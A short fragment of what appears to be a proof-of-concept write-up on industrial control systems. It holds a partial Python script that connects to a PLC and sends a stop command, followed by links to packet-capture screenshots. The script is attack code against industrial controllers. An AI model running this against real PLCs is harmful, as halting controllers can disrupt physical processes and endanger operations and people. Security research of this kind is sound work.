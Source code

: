 ```python
except:
  print("[-] Failed to connect.")
  sys.exit()
  
# Attempt to shut down PLC (redundant)
connected = client.get_connected()
if connected:
  print("[+] Shutting down PLC...")
  client.plc_stop()
else:
  print("[-] Client not connected.")
```


**Proof-of-Concept Packet Capture:**

![[Pasted image 20231024123926.png]]

![[Pasted image 20231024123959.png]]
